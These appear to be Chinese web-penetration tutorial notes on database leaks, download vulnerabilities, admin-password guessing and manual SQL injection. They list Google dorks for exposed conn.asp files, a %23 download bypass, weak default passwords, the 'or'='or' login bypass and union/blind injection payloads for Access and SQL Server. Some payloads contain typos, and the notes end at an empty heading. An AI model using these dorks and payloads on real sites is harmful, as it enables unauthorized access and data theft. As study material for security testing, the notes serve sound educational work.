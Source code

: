 # 网站暴库漏洞

暴库，就是通过一些技术手段或者程序漏洞得到数据库的地址，并将数据非法下载到本地。

## 暴库利用方法

inurl:/inc/conn.asp inurl:/inc+conn.asp to parent directory intext:
inurl:/inc/conn.asp
inurl:/inc+conn.asp
to parent directory

所有可以目录浏览的网页都有一些相同的地方，主要有下面几个：
to parent directory
last modified Description
转到父目录

而利用Google来搜目录浏览的Google语法主要有：intitle intext inurl site filetype等等

搜索域名后缀，常见的域名后缀有：com net mil org info gov edu biz coop areo pro int arpa

### 暴库绕过防下载

#sdsf.mdb
下载时改成
%23sdsf.mdb

### 高级语法暴库

inurl:./..admin../..add..
inurl:./..admin../..del..
inurl:/.asp<id=<% <%<%

# 下载漏洞

## 下载漏洞利用

通过蜘蛛爬行
找到该url
下载conn.asp config.php config.asp
db.mdb

# 网站后台密码爆破

为了管理员方便管理网站，cms系统通常有管理员后台管理接口，该接口需要出示管理员账户密码，正确验证后方可登录

## 常见后台

网站常见的cms管理系统有：
织梦、discuz、帝国、phpweb、WordPress、aspcms、科讯、南方、良精、ecshop等

## 弱口令猜测

管理员为了省事，可能会忽略掉网站后台密码的安全性，一般可能会设置一些初始密码或者弱口令

常见初始密码弱口令：
Admin、admin888、admin123、123456、111/123/111111、等等

逻辑万能密钥：
'or'='or'  Admin' or 1=1--

## 破解工具

Burpsuite
Discuz破解器
一些python密码破解脚本
httpfuzzer
针对性破解工具

# 网站漏洞EXP利用

EXP是exploit(漏洞利用)的缩写，当我们cms出现漏洞的时候针对漏洞原理可以写出针对该漏洞的exploit，有的exp可以直接添加管理员、或者getshell、爆出管理员账户密码、数据库账户密码等等

# 批量检测站点

通常用于某一类型漏洞站点的安全检测

# 网站分类

## 静态网页：

html或者htm，是一种静态的页面格式，不需要服务器解析其中的脚本。由浏览器如（IE、Chrome等）解析
1. 不依赖数据库
2. 灵活性差，制作、更新、维护麻烦
3. 交互性较差，在功能方面有较大的限制
4. 安全，不存在SQL注入漏洞

## 动态网站

asp、aspx、php、jsp等，由相应的脚本引擎来解释执行，根据指令生成静态网页
1. 依赖数据库
2. 灵活性好，维护简便
3. 交互性好，功能强大
4. 存在安全风险，可能存在SQL注入漏洞

# 常见的数据库

Access数据库
MySQL数据库
SQLServer数据库
oracle数据库
postgresql数据库
Db2等

# 注入危害

## SQL注入的定义

很多应用程序都是用数据库来存储信息。SQL命令就是前端应用程序和后端数据库之间的接口。攻击者可利用应用程序根据提交的数据动态生成SQL命令的特性，在URL、表单域，或者其他的输入域中输入自己的SQL命令，改变SQL命令的操作，并将修改的SQL命令注入到后端数据库引擎执行

## SQL注入的危害

这些危害包括但不限于：
1. 数据库信息泄露：数据库中存放的用户的隐私信息的泄露
2. 网页篡改：通过操作数据库对特定网页进行篡改
3. 网站被挂马，传播恶意软件：修改数据库一些字段的值，嵌入网马链接，进行挂马攻击
4. 数据库被恶意操作：数据库服务器被攻击，数据库的系统管理员账户被篡改
5. 服务器被远程控制，被安装后门。经由数据库服务器提供的操作系统支持，让黑客得以修改或控制操作系统
6. 破坏硬盘数据，瘫痪全系统
一些类型的数据库系统能够让SQL指令操作文件系统，这使得SQL注入的危害被进一步放大

### 判断数据库注入

and exists(select * from msysobjects)>0 access
and exists(sleect * from sysobjects)>0 sqlserver

判断数据库表
and exists(select * from admin)

判断数据库列名
and exists(select admin from admin)

判断字段长度
order by 20

判断
and 1=2 union select 1,2,3,4,5,6,7,8,9 from admin

数据库联合查询
and 1=2 union select 1,2,admin,4,oassword,6,7,8,9 from admin

判断账户密码的长度

and (select len(admin) from admin)=5 如果返回正常说明管理员账户的长度为5
and (select len(password) from admin)=5 猜解管理密码长度是否为5

猜解管理员账号的第一个数据
通过判断ascii码来判断
and (select top 1 asc(mid(admin,1,1)) from admin)>100 返回正常说明大于，不正常说明不大于
and (select top 1 asc(mid(admin,1,1)) from admin)=97 返回正常说明等于97 97对应的字母为a

以此类推

## 常用注入工具

阿D、明小子、穿山甲、havji、sqlmap等工具

## 偏移注入

偏移注入的产生主要是用来解决表名猜到，列名猜不到的情况

http://127.0.0.1:99/0/Production/PRODUCT_DETAIL.asp?id=1142 union select 1,2,3,4,5,6,7,8,9,0,11,12,13,14,15,16,17,18,19,20,21,22 from admin

## 跨库查询

